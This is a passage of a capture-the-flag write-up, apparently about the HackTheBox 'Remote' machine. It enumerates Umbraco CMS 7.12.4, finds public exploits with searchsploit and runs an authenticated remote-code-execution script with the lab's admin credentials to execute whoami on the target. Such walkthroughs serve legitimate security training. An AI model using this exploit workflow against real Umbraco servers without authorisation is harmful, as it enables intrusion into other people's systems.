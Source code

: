 #### Enumerating Umbraco

Right now, we should be asking ourselves <mark>“what exactly is Umbraco?”</mark>. Happily enough, we are greeted with a button redirecting to its <mark>documentation</mark>.

“Umbraco CMS is a flexible and editor-friendly <mark>Content Management System</mark> (CMS) that allows you to create beautiful and modern websites. Use the latest version of .NET, integrate with your favorite services, and help your customers launch a website tailored to their specific needs.”

Coming across <mark>CMS</mark> we should be thinking about uploading <mark>web shells</mark>. However, let’s not get short-sighted and enumerate our options.

Clicking on the admin’s profile picture reveals the Umbraco’s version.

![Umbraco's version](/assets/img/posts/Remote/umbraco-version.png)

We found two exploits for this particular version. Both of seem to do the same thing, but the second one is the latest. This is the one we are going to use.

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote]                                         
└─$ searchsploit Umbraco 7.12.4
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Umbraco CMS 7.12.4 - (Authenticated) Remote C | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (A | aspx/webapps/49488.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
{% endhighlight %}

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote]                                         
└─$ cp /usr/share/exploitdb/exploits/aspx/webapps/49488.py rce.py
{% endhighlight %}

After reviewing the code, we can say this is a Python exploit, which leverages a vulnerability in Umbraco to achieve <mark>RCE</mark> by an authenticated administrator.

Its payload is an XML stylesheet (XSLT) that includes embedded C# code. It runs with a specified command (<mark>-c</mark>) and its arguments (<mark>-a</mark>).

Let’s test its functionality…

{% highlight shell %}
┌──(iwo㉿kali)-[/Desktop/Boxes/Remote]                                         
└─$ python3 rce.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c whoami
iis apppool\defaultapppool
{% endhighlight %}

It works!
